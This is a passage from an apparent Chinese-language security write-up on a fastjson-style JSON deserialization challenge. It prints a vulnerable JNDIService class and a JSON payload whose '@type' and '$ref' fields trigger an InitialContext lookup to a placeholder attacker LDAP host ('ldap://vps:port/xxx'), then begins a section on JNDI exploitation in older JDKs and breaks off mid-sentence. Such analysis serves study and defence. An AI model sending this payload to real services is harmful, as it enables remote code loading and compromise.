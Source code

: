运行输出结果为：

```json
{"content" : {"@type": "ycb.simple_json.service.JNDIService", "target":"ldap://vps:port/xxx"}, "msg":{"$ref":"$.content.context"}}
Message{msg='null'}
```

从这里的提示转而关注到`ycb.simple_json.service.JNDIService`，该类的代码如下

```java
@JSONType
public class JNDIService {
    private String target;
    private Context context;

    public JNDIService() {
    }

    public void setTarget(String target) {
        this.target = target;
    }

    public Context getContext() throws NamingException {
        if (this.context == null) {
            this.context = new InitialContext();
        }

        this.context.lookup(this.target);
        return this.context;
    }
}
```

可以看到两个函数：`setTarget`和`getContext`函数，json在解析`request`数据的时候会先通过set方法设置target，`"msg":{"$ref":"$.content.context"}`会触发调用`getContext`函数，从而使用`InitialContext.lookup`加载远程对象

但是如果直接

0x02 关于JNDI在低版本JDK的利用
=====================

> Java对象在JNDI中的存储方式:
> 
> - Java序列化
> - JNDI Reference
> - Marshalled对象
> - Remote Location (已弃用)

低版本没有限制任意加载`object factory`的时候漏洞出发流程大致如下

![image-20220907013338336](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-42615ecabc320b391e4e2d95c7ca4541b392555a.png)

很多时候RMI的使用 - 利用方式一
------------------
